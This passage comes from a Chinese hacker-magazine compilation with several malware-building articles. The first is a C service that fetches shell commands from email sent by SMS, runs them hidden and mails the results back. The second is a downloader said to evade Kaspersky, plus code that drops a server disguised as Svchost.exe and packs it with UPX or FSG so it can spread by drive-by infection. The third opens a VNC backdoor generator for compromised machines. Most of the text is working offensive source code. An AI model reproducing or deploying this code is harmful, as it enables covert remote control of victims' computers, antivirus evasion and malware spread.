        printf("删除服务成功!\n");
    CloseServiceHandle(service);
    CloseServiceHandle(scm);
}
```

关于创建与删除服务，文中并没有做详细的介绍，如果读者需要的话，可以参考 2007 年 3 月份《黑客防线》编程栏目《木马编程DIY之系统服务》一文。现在用安装程序把服务装好，重启电脑后，就可以用“Telnet 127.0.0.1 5555”来连接执行命令了。如果你打算自己编写服务程序的话，直接修改提供的源代码的工作线程部分就可以了，相信会给你带来不少方便。

### 编程实现手机远程控制电脑

文/图 山峰

随着通信技术的飞速发展，3G时代的到来将会给我们的生活方式带来巨大的影响。智能手机与计算机通信网的完美结合，使得我们能够更加方便快捷地访问计算机资源。就目前的GSM时代来说，处于2.5G的通用分组无线业务（GPRS）还未能提供足够的通信速率让我们即时访问远程计算机，不过我们可以利用短信接口以命令行的形式实现对远程计算机的非即时性控制。

短信形式的手机远程控制实现原理是：使用自己的手机向某一服务号码发送控制指令，受控制的计算机能够在互联网上检索到该指令，并且分析运行。由此可以看出，实现控制的关键技术就是短信接口。

对于免费的短信接口，http://sms.ruyi.com/ 是个很好的选择，只要有一张山东联通GSM的手机卡并在该网站注册为会员，就可以从该网站查询到自己发送或接收到的短信信息，如图1所示。我之所以说可以免费，是因为我们将控制指令发送给10001（联通的客户服务热线号码）是不收费的，并还能在该网站检索到发送的控制信息。可惜大部分兄弟使用的是中国移动的手机卡，为了使用这个免费接口而换手机卡，实在是不划算。



下面我就以另一个接口为例来实现我们的远程控制。打开 http://appsms.mail.126.com/mailmms/smsnotify/reg_out.jsp?id=126sy（如图2所示），不禁眼前一亮，126邮箱提供的随身邮不就是我们理想的短信接口吗？其资费是10元/月，不过提供了3天的试用期。哈哈，有钱的包月啦，没钱的（像我这样的）就只能尝尝鲜了。



#### 程序实现

废话少说，步入正题。首先需要按照提示开通随身邮服务，然后再注册一个邮箱接收我们通过手机发送的控制指令。注意，这里选用的邮箱一定要支持POP3协议。我选择的是Sohu免费邮箱。此时，我们电脑上运行的服务端的任务就是检索该信箱中的控制指令并执行，同时将执行结果发送到开通随身邮的126信箱，这样，我们就可以通过手机查看到执行结果了。

在发送执行结果的邮件的时候，我们可以使用如下定义的结构体。

```c
typedef struct tmail_tag{
    char mail_addr[255];
    char mail_from[255];
    char mail_to[255];
    char username[20];
    char password[20];
    char subject[255];
    char content[1024];
} MAIL;
```

接收邮件时使用如下定义的结构体。

```c
typedef struct readmail_tag{
    char pop3_addr[255];
    char pop3_user[255];
    char pop3_pass[255];
    char pop3_subject[255];
    char pop3_content[1024];
} RDMAIL;
```

剩下的问题就是编写发送执行结果的函数和读取控制指令的函数了。我们定义用手机发送的控制命令的邮件主题为“cmd”，邮件正文格式为“cmd#需要执行的命令#”。比如“cmd#start calc.exe#”命令为打开计算器；“cmd#shutdown s#”为关闭计算机；“cmd#"d:\\test.exe"#”为运行“d:\\test.exe”应用程序。总之“cmd#”后面需要添加的是DOS命令，并且该命令需要以“#”作为结束符。OK，下面我们先编写检索控制指令的函数。

```c
int readmail(RDMAIL *rdmail)
{
    WSADATA wsadata;
    unsigned short version;
    version=0x0002;
    ::WSAStartup(version,&wsadata); // sock2.0版本
    sockaddr_in pop3_addr={0};
    pop3_addr.sin_family=AF_INET;
    pop3_addr.sin_port=htons(110);
    hostent *phost=::gethostbyname(rdmail->pop3_addr);
    // 获取POP3服务器的IP地址
    pop3_addr.sin_addr.S_un.S_addr=*(unsigned long*)phost->h_addr_list[0];

    SOCKET s=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    int ret=connect(s,(sockaddr*)&pop3_addr,sizeof(pop3_addr));
    if(ret<0){ quit(s); return 1; }

    char buffer[255]={0};
    recv(s,buffer,255,0);

    // 利用POP3协议登录服务器检索信件，开始发送用户名
    memset(buffer,0,255);
    strcpy(buffer,"user ");
    strcat(buffer,rdmail->pop3_user);
    strcat(buffer,"\r\n");
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);

    // 开始发送密码
    memset(buffer,0,255);
    strcpy(buffer,"pass ");
    strcat(buffer,rdmail->pop3_pass);
    strcat(buffer,"\r\n");
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!='+'){
        quit(s);
        return 1;
    }

    // 认证完毕，开始检测信件
    memset(buffer,0,255);
    send(s,"retr 1\n",7,0);
    // 注意，需要预先删除该邮箱中的所有邮件，因为我们的程序只读取序号为1的邮件
    char recvword[2048]={0};
    ret=recv(s,recvword,2048,0);
    if(recvword[0]=='-'){
        quit(s);
        return 1;
    }

    recv(s,recvword,2048,0);
    strlwr(recvword);
    char *psubject=strstr(recvword,"\nsubject");
    // 获取邮件的subject
    if(psubject==NULL){
        delmsg_quit(s);
        return 1;
    }
    psubject+=9;
    int i=0;
    while(*psubject!='\r'){
        rdmail->pop3_subject[i]=*psubject;
        psubject+=1;
        i++;
    }
    rdmail->pop3_subject[i]='\0';

    char *pcontent=strstr(recvword,"cmd#");
    // 如果邮件正文中不含有cmd#，则认为此信件内容非控制指令，删除并退出
    if(pcontent==NULL){
        delmsg_quit(s);
        return 1;
    }

    pcontent+=4;
    i=0;
    // 读取邮件正文中的控制指令
    for(;*pcontent!='#'&&i<100;){
        rdmail->pop3_content[i]=*pcontent;
        pcontent+=1;
        i++;
    }

    // 100字符之内无命令结束符，则删除该邮件并退出登录
    if(i==100){
        delmsg_quit(s);
        return 1;
    }

    rdmail->pop3_content[i]='\0';  // 退出登录
    send(s,"dele 1\n",7,0);
    recv(s,buffer,255,0);
    send(s,"quit\n",5,0);
    closesocket(s);
    ::WSACleanup();
    return 0;
}
```

计算机端的服务程序检索完毕指令并执行后还需要送出执行结果，用以实现这个功能的函数如下。

```c
int sendmail(MAIL *pmail)
{
    char *pmail_addr=pmail->mail_addr;
    char *pmail_from=pmail->mail_from;
    char *pmail_to=pmail->mail_to;
    char *pusername=pmail->username;
    char *ppassword=pmail->password;
    char pdata[1048]={0};
    strcpy(pdata,"from:");
    strcat(pdata,pmail->mail_from);
    strcat(pdata,"\r\n");
    strcat(pdata,"to:");
    strcat(pdata,pmail->mail_to);
    strcat(pdata,"\r\n");
    strcat(pdata,"subject:");
    strcat(pdata,pmail->subject);
    strcat(pdata,"\r\n\r\n");
    strcat(pdata,pmail->content);
    strcat(pdata,"\r\n");
    // 构造邮件数据
    Base64 bs;
    WSADATA data;
    unsigned short version;
    version=0x0002;
    WSAStartup(version,&data);
    sockaddr_in mail_addr={0};
    hostent *phost=gethostbyname(pmail_addr);
    mail_addr.sin_addr.S_un.S_addr=*(unsigned long *)phost->h_addr_list[0];
    mail_addr.sin_family=AF_INET;
    mail_addr.sin_port=htons(25);
    SOCKET s=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    int ret=connect(s,(sockaddr*)&mail_addr,sizeof(mail_addr));
    if(ret<0){quit(s);return 1;}

    char buffer[255]={0};
    recv(s,buffer,255,0);
    memset(buffer,0,255);
    // 开始登录SMTP服务器
    ret=send(s,"HELO LIIKZ\r\n",12,0);
    if(ret<=0){quit(s);return 1;}
    ret=recv(s,buffer,255,0);
    if(ret<=0){quit(s);return 1;}

    memset(buffer,0,255);
    // 发送身份认证请求
    send(s,"AUTH LOGIN\r\n",12,0);
    recv(s,buffer,255,0);
    if(buffer[0]!='3'&&buffer[1]!='3') ...
    {
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    strcpy(buffer,bs.base64_encode(pusername).c_str());
    strcat(buffer,"\r\n");
    // 发送BASE64编码的用户名
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!='3')
    {
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    // 发送BASE64编码的密码
    strcpy(buffer,bs.base64_encode(ppassword).c_str());
    strcat(buffer,"\r\n");
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!='2'&&buffer[1]!='3')
    {
        quit(s);
        return 1;
    }

    // 认证完毕，开始发送邮件数据
    memset(buffer,0,255);
    strcpy(buffer,"MAIL FROM:<");
    strcat(buffer,pmail_from);
    strcat(buffer,">");
    strcat(buffer,"\r\n");
    // 发送mail from命令
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!='2'&&buffer[1]!='5')
    {
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    strcpy(buffer,"RCPT TO:<");
    strcat(buffer,pmail_to);
    strcat(buffer,">");
    strcat(buffer,"\r\n");
    // 发送rcpt to指令
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!='2'&&buffer[1]!='5')
    {
        quit(s);
        return 1;
    }

    memset(buffer,0,255);
    send(s,"DATA\r\n",6,0);
    recv(s,buffer,255,0);
    if(buffer[0]!='3'&&buffer[1]!='5')
    {
        quit(s);
        return 1;
    }
    ...

    strcpy(buffer,pdata);
    strcat(buffer,"\r\n.\r\n");
    // 开始发送邮件数据
    send(s,buffer,strlen(buffer),0);
    memset(buffer,0,255);
    recv(s,buffer,255,0);
    if(buffer[0]!='2') {
        quit(s);
        return 1;
    }
    memset(buffer,0,255);
    strcpy(buffer,"QUIT\r\n"); // 退出登录
    send(s,buffer,strlen(buffer),0);
    closesocket(s);
    ::WSACleanup();
    return 0;
}
```

```c
// 登录POP3服务器的时间间隔…
readmail(&rdmail); // 登录POP3服务器获取控制指令
char *psubject=trim(rdmail.pop3_subject);
if(strcmp(psubject,"cmd")!=0){
    memset(rdmail.pop3_subject,0,255);
    memset(rdmail.pop3_content,0,1024);
    continue;
}
trim_content(rdmail.pop3_content);
printf("subject:%s\n",psubject);
printf("cmd:%s\n",rdmail.pop3_content);
char result[1024]={0};
exec(rdmail.pop3_content,sdmail.content);
strcpy(sdmail.subject,"cmd");
sendmail(&sdmail); // 发送命令执行结果
memset(rdmail.pop3_subject,0,255);
memset(rdmail.pop3_content,0,1024);
}
```

为了执行命令并且提取执行结果的函数，我使用了DOS命令的重定向符，轻松实现了该功能，有关的代码如下。

```c
void exec(char *cmd,char *presult)
{
    char szcmd[400]={0};
    strcat(szcmd,"/c ");
    strcat(szcmd,cmd);
    strcat(szcmd,">d:\\cmd.txt");
    // 运行被控制指令，将结果输出重定向到d:\cmd.txt
    HINSTANCE h=::ShellExecute(NULL,"open","cmd.exe",szcmd,NULL,SW_HIDE);
    ::WaitForSingleObject(h,INFINITE);
    Sleep(2000); // 读取执行结果
    FILE *fp=fopen("d:\\cmd.txt","r");
    int i=0;
    while(!feof(fp)&&i<100){
        presult[i]=fgetc(fp);
        i++;
    }
    presult[i]='\0';
    fclose(fp);
}
```

上面就是实现手机控制计算机的核心函数，接下来我们编写主程序。

```c
void main(int argc,char *argv[])
{
    if(argc==2&&strcmp(argv[1],"-h")==0){
        hide(); // 添加-h参数隐藏DOS界面
    }
    RDMAIL rdmail={0};
    read_config(&rdmail); // 读取发信配置
    MAIL sdmail={0};
    send_config(&sdmail); // 读取收信配置
    while(1){
        ::Sleep(8000);
    }
}
```

至此，整个程序的核心函数就已经讲解完毕。其他的一些琐碎细节我就不详细分析了，大家可以看随文附带的源代码。下面再介绍一下编译后程序的使用方法。

#### 程序利用

首先注册一个126免费邮箱，登录后点击左边面板中的随身邮，按提示开通随身邮功能，并在随身邮高级设置中设置如图3所示的过滤。之后再到mail.sohu.com注册一个免费Sohu邮箱，如test@sohu.com，登录邮箱删除其中的所有信件。打开程序中的ReadMail.ini配置文件，将信息修改为Sohu邮箱注册的用户名和密码，最后运行服务端程序即可。



图3

发送指令的方法是用手机编辑短信“test@sohu.com（空格）cmd（空格）cmd#控制命令#”发送到163024。一条控制信息1毛钱，够便宜的了，接收命令回复免费。

非回显，否则收到新邮件提示短信后还要回复“.”读取。如果你不需要回显执行结果的功能，在随身邮过滤功能中拒绝掉主题为“cmd”的邮件即可。短信中的“test@sohu.com”是你自己注册的免费邮箱。程序运行结果如图4所示，如果想隐藏显示窗口的话，运行程序的时候添加“-h”参数即可。

需要注意的是：控制命令中的文件路径不能包含汉字；如果文件路径中含有空格，需要将运行的程序路径用双引号括起来。最后，我再给大家提供几个实用的例子，具体如下。



```cpp
cmd#ver#  // 获取Windows版本信息
cmd#shutdown -s #  // 关闭计算机
cmd#"C:\Program Files\Windows Media Player\wmplayer.exe" d:\music\1.mp3#
// 运行Windows Media Player并且打开1.mp3
cmd#d:\music\1.mp3#  // 播放1.mp3，功能同上
```

总之，控制指令能执行所有的DOS命令，熟练使用这个程序，只有你想不到的，没有你做不到的。

> 【本文涉及的代码（程序），请见随书光盘】


### 为反弹远控服务端减肥

本文要和大家探讨一下在制作服务端的时候怎么压缩的问题。黑客在编写网络僵尸、远程控制软件和下载感染者的时候，可能会遇到这样的一个问题：服务端太大导致没法挂马，不利于传播。现在的网马使用的下载者一般都是1~3KB的大小，全功能的远程控制软件的大小也不过20~30KB。但是编程的人都知道，远程桌面、远程摄像头管理和传输要用到压缩算法，一个JPEG Lib一般都有20~30KB，H.323的库也不小，它们是怎么做到的呢？方法有很多，下面就用几个例子给大家说明一下。

#### 动态加载自己所用的函数

这里用一个我自己写的下载感染者作为说明，可以通过卡巴斯基的查杀（注意应用本文代码的时候要署名：first author by lyyer），其功能为动态加载 `LoadLibrary("wininet.dll")`；这样就可以应用其下载我们想要的东西了。这在读取指定URL的内容、反弹木马URL配置IP信息时需要用到，比如读取 `http://www.xxx.com/user/p.jpg`。

```cpp
// author: by lyyer
#include "stdlib.h"
#define HTTP_QUERY_CONTENT_LENGTH 5
#define INTERNET_SERVICE_HTTP 3
#define INTERNET_INVALID_PORT_NUMBER 0
#define INTERNET_FLAG_NO_CACHE_WRITE 0x04000000
#define INTERNET_FLAG_DONT_CACHE INTERNET_FLAG_NO_CACHE_WRITE

BOOL HttpGetFile(char url_main[], char url_last[], char savepath[MAX_PATH])
{
    HMODULE hDll;
    LPVOID hSession, hConnect, hHttpFile;
    hDll = LoadLibrary("wininet.dll");
    if(hDll)
    {
        typedef LPVOID (WINAPI *pInternetOpen)(LPCTSTR,DWORD,LPCTSTR,LPCTSTR,DWORD);
        typedef BOOL (WINAPI *pInternetCloseHandle)(LPVOID);
        typedef BOOL (WINAPI *pInternetReadFile)(LPVOID,LPVOID,DWORD,LPDWORD);
        typedef BOOL (WINAPI *pHttpQueryInfo)(LPVOID,DWORD,LPVOID,LPDWORD,LPDWORD);
        typedef LPVOID (WINAPI *pHttpOpenRequest)(LPVOID,LPCTSTR,LPCTSTR,LPCTSTR,LPCTSTR,LPCTSTR,DWORD,DWORD);
        typedef BOOL (WINAPI *pHttpSendRequest)(LPVOID,LPCTSTR,DWORD,LPVOID,DWORD);
        typedef LPVOID (WINAPI *pInternetConnect)(LPVOID,LPCTSTR,char,LPCTSTR,LPCTSTR,DWORD,DWORD,DWORD);
        ...
    }
}
```

```cpp
pInternetOpen InternetOpen = (pInternetOpen)
GetProcAddress(hDll,"InternetOpenA");
...
HANDLE hFile = CreateFile(savepath, // 存放路径
  GENERIC_WRITE,
  FILE_SHARE_READ|FILE_SHARE_WRITE,NULL,
  OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL);
// Read the file into the buffer.
if (hFile)
{
    do
    {
        bRead = InternetReadFile(hHttpFile,buffer,1024+1,&dwBytesRead);
        WriteFile(hFile,buffer,dwBytesRead,&write_size,NULL);
        Sleep(1); //5
    } while(dwBytesRead);
}
else
{
    return false;
    OutputDebugString("打开文件出错");
}
...
InternetCloseHandle(hHttpFile);
InternetCloseHandle(hConnect);
InternetCloseHandle(hSession);
...
OutputDebugString("LoadLibrary wininet error");
return false;
```

#### 通过压缩壳程序对自己的程序压缩

这里我只介绍UPX和FSG的压缩，实验的例子是一个76KB的程序。首先打开VC6.0建立一个对话框程序，然后把那个76KB的程序作为资源放到Test资源里。如图1所示，大家可以看到其MZ头，它是EXE程序的特征。然后再用同样的方法把压缩程序也放到资源里，如图2所示。这里要注意一下，FSG有个INI文件也要放到资源里。同时修改 `fsg.ini` 文件里的一个配置，让 `default=1`，这样可以把ICON资源也一起压缩。具体的程序实现代码如下。



图1


图2

```cpp
// 得到程序本身的路径
char LocalPath[MAX_PATH];
GetCurrentDirectory(MAX_PATH, LocalPath);
strcat(LocalPath,"\\Svchost.exe");
LoadSource(IDR_SERVER,"SERVER",LocalPath);

// UPX 程序的路径
char UpxPath[MAX_PATH];
strcpy(UpxPath,"upx.exe");

// 从资源里释放出来
LoadSource(IDR_UPX,"UPX",UpxPath);

// 设置 upx 命令行参数
strcat(UpxPath," -7 ");
strcat(UpxPath,LocalPath);

// 设置隐藏运行
PROCESS_INFORMATION PI;
STARTUPINFO SI;
memset(&SI, 0, sizeof(SI));
SI.cb = sizeof(SI);
SI.dwFlags = STARTF_USESHOWWINDOW;
SI.wShowWindow = SW_HIDE;

// 创建程序
CreateProcess(NULL, UpxPath, NULL, NULL, FALSE,
  NORMAL_PRIORITY_CLASS, NULL, NULL, &SI, &PI);

// 等程序运行完即将 UPX 压缩完
WaitForSingleObject(PI.hProcess, INFINITE);
DeleteFile("upx.exe");

// 下面是 FSG 的程序
char LocalPath[MAX_PATH];
GetCurrentDirectory(MAX_PATH, LocalPath);
strcat(LocalPath,"\\Svchost.exe");
LoadSource(IDR_SERVER,"SERVER",LocalPath);
char FSGPath[MAX_PATH]={0};
GetCurrentDirectory(MAX_PATH,FSGPath);
strcat(FSGPath,"\\fsg.exe");
LoadSource(IDR_FSG,"FSG",FSGPath);
strcat(FSGPath," ");
char fsgini[MAX_PATH];
GetCurrentDirectory(MAX_PATH,fsgini);
strcat(fsgini,"\\fsg.ini");
LoadSource(IDR_FSG_INI,"FSG",fsgini);
strcat(FSGPath,"Svchost.exe");

// LocalPath
PROCESS_INFORMATION PI;
STARTUPINFO SI;
memset(&SI, 0, sizeof(SI));
SI.cb = sizeof(SI);
SI.dwFlags = STARTF_USESHOWWINDOW;
SI.wShowWindow = SW_HIDE;
CreateProcess(NULL, FSGPath, NULL, NULL, FALSE,
  NORMAL_PRIORITY_CLASS, NULL, NULL, &SI, &PI);
WaitForSingleObject(PI.hProcess, INFINITE);
DeleteFile("fsg.exe");
DeleteFile("fsg.ini");
```



图3是上面程序运行时的截图，怎么样，还不错吧？最后还有一个关键的释放资源的函数再给大家介绍一下，其代码如下。

```cpp
BOOL LoadSource(UINT resource_id , const char * type , const char * filepath)
{
    // 获得资源指针
    HRSRC hRsrc = ::FindResource(NULL, MAKEINTRESOURCE(resource_id), type);

    // 将资源载入内存
    HGLOBAL handle = ::LoadResource(NULL, hRsrc);

    // 写入文件
    if(handle)
    {
        // 定位资源位置
        BYTE *MemPtr = (BYTE *)LockResource(handle);
        CFile file;
        if(file.Open(filepath, CFile::modeCreate | CFile::modeWrite))
        {
            file.Write(MemPtr, size);
            file.Close();
        }
        ::UnlockResource(handle);
        ::FreeResource(handle);
        return TRUE;
    }
    return FALSE;
}
```

通过这两个步骤，基本上你的服务端就会很小了，然后再用我上面给大家的下载者下载服务端就可以挂马了。

最后再和大家说说编程的问题，其实程序能用就可以了，不用太过追求完美。咱们可以假设一下，如果我要写一个下载者，实现HTTP协议下载，从WinSocket写起，完成这个功能最少也要一个月时间。如果要是用Wininet写的话，也许就一上午就能搞定。做程序也要考虑时间的问题，否则写出来的东西就跟不上需求了，也就没有意义了。如果大家对本文有什么疑问，可以到黑客防线论坛或者 `http://lyyer.blog.sohu.com` 与我讨论。

【本文涉及的代码（程序），请见随书光盘】

## 打造自己的VNC后门生成器

文/图 天涯浪人


最近在网上发现了一个单DLL版的VNC Server，试了一下感觉真的还不错。它只有一个文件，在“肉鸡”上安装既简单又安全（容易隐藏呀！），发现好东西不敢独享，就花了点时间弄了个生成器献给广大菜鸟。下面先介绍一下这个单DLL版的 `winvnc.dll`。

`tianya.exe` 用于启动前面的两个程序，并且自运行。启动项由安装程序写入注册表Winlogon。`vnc.dll` 就是我们的 `winvnc.dll`，`SVCHOST.exe` 则是系统自带的 `rundll32.exe`，这两个程序就不用再编译了，需要编写的是 `tianya.exe` 和安装程序。由于我们的生成器要支持正向连接和反向连接，所以这个 `tianya.exe` 和安装程序都要弄两个，看上面的DLL版 `winvnc.dll` 的命令行参数就知道了，正向连接和反向连接只是参数不同而已，我们先看正向连接的代码。

